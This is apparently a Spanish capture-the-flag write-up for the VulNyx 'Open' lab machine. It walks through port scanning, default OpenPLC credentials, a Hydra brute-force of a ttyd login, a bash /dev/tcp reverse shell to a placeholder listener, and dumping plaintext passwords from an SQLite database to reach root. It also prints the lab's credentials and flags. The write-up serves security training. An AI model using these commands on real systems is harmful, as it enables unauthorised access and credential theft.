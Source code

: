 ```yaml
---
icon: flag
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Open Vulnyx (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-23 04:46 EDT
Nmap scan report for 192.168.5.88
Host is up (0.0076s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
7681/tcp open  http    ttyd 1.7.7-40e79c7 (libwebsockets 4.3.3-unknown)
|_http-server-header: ttyd/1.7.7-40e79c7 (libwebsockets/4.3.3-unknown)
|_http-title: Site doesn't have a title.
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=ttyd
8080/tcp open  http    Werkzeug httpd 2.3.7 (Python 3.11.2)
|_http-server-header: Werkzeug/2.3.7 Python/3.11.2
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /login
MAC Address: 08:00:27:75:AD:41 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.26 seconds
```

Veremos varios puertos interesantes, pero entre ellos veremos el puerto `80` y el puerto `8080`, vamos a ver que alojan cada uno de ellos.

Si entramos en el puerto `80` veremos un `apache2` normal sin nada interesantes, pero si entramos al puerto `8080` veremos un `login` de un `software` llamado `openplc` vamos a buscar algun `exploit` asociado con el.

URL = [Exploit openplc](https://github.com/thewhiteh4t/cve-2021-31630)

Veremos que hay uno asociado, no sabemos si la version es la correcta, pero si vemos en el codigo fuente como funciona por dentro veremos que por defecto prueba las credenciales por defecto de dicho `software`.

```
User: openplc
Pass: openplc
```

## Escalate user tirex

Si las probamos directamente veremos que funcionan y estaremos dentro del panel de `administrador`, si ejecutamos el `exploit` no veremos que funcione, por lo que vamos a investigar un poco por el panel a ver que vemos.

Si nos vamos a `usuarios` veremos varios interesantes los cuales vamos a realizar una lista:

> users.txt

```
root
tirex
openplc
```

Pero por `SSH` no veremos nada interesante, por lo que vamos a probar en el `login` del puerto `7681`, si entramos dentro veremos que es un `login` de `http-get`, por lo que vamos a realizar lo siguiente:

### Hydra

```shell
hydra -L users.txt -P <WORDLIST> http-get://<IP>:7681 -F -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-23 10:20:43
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-get://192.168.5.88:7681/
[7681][http-get] host: 192.168.5.88   login: tirex   password: heaven
[STATUS] attack finished for 192.168.5.88 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-23 10:20:46
```

Veremos que hemos encontrados las credenciales del usuario `tirex`, si entramos dentro...

```
user: tirex
pass: heaven
```

Veremos que tenemos una `shell` en el servidor atraves de una web como el usuario `tirex`:

```
tirex@open:~$ whoami
tirex
```

Por lo que vamos a enviarnos una `reverse shell` para poder tener una mejor `shell`.

```shell
bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```

Antes de enviarlo nos pondremos a la escucha de esta forma:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos lo anterior y volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.88] 49350
tirex@open:~$ whoami
whoami
tirex
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Echo esto vamos a leer la `flag` del usuario.

> user.txt

```
36537694f3321e7a7911d746f311ed1d
```

## Escalate Privileges

Acordemonos de que antes vimos a un usuario en la web llamado `root`, puede ser que la web contenga las credenciales del propio `root` tambien a nivel de sistema, por lo que si nos vamos a donde se almacena `OpenPLC` que es donde se almacenan las contraseñas:

```shell
cd /opt/OpenPLC_v3/webserver
```

Veremos lo siguiente:

```
total 10016
drwxr-xr-x 8 tirex tirex    4096 ago 23 10:52 .
drwxr-xr-x 8 tirex tirex    4096 ago 22 19:11 ..
-rwxr-xr-x 1 tirex tirex      17 ago 23 10:45 active_program
-rw-r--r-- 1 tirex tirex    4607 ago 22 19:09 check_openplc_db.py
drwxr-xr-x 5 tirex tirex    4096 ago 23 10:45 core
-rw-r--r-- 1 tirex tirex    2006 ago 22 19:09 dnp3.cfg
-rwxr-xr-x 1 tirex tirex 9837872 ago 22 19:10 iec2c
drwxr-xr-x 2 tirex tirex    4096 ago 22 19:09 lib
-rw-r--r-- 1 tirex tirex    6458 ago 22 19:09 monitoring.py
-rw-r--r-- 1 tirex tirex   53248 ago 23 10:52 openplc.db
-rw-r--r-- 1 tirex tirex    7696 ago 22 19:09 openplc.py
-rw-r--r-- 1 tirex tirex   99861 ago 22 19:09 pages.py
drwxr-xr-x 2 tirex tirex    4096 ago 22 19:13 __pycache__
drwxr-xr-x 2 tirex tirex    4096 ago 22 19:11 scripts
drwxr-xr-x 3 tirex tirex    4096 ago 22 19:09 static
drwxr-xr-x 2 tirex tirex    4096 ago 23 10:52 st_files
-rwxr-xr-x 1 tirex tirex   35720 ago 22 19:10 st_optimizer
-rw-r--r-- 1 tirex tirex  159532 ago 22 19:09 webserver.py
```

De todo esto lo que nos interesa es la llamada `openplc.db` vemos que esta como el usuario que tenemos ahora a nivel de permisos, por lo que podremos utilizar `sqlite3` para inspeccionar dicho `.db` de esta forma:

```sql
.tables
```

Info:

```
Programs   Settings   Slave_dev  Users
```

Vamos a volcar la informacion de `Users` a ver que vemos:

```sql
SELECT * FROM Users;
```

Info:

```
10|openplc|openplc|openplc@open.nyx|openplc|
11|tirex|tirex|tirex@open.nyx|Th3_r00t_is_G0d|
12|root|root|root@open.nyx|Th3_r00t_is_G0d|
```

Veremos que la contraseña de `root` en la pagina al igual que la de `tirex` es `Th3_r00t_is_G0d` por lo que vamos a probarla a nivel de sistema a ver si funciona.

```shell
su root
```

Metemos como contraseña `Th3_r00t_is_G0d`...

```
root@open:/opt/OpenPLC_v3/webserver# whoami
root
```

Veremos que con esto seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
bba5053c73653e33a5eefaefb4ad8e47
```
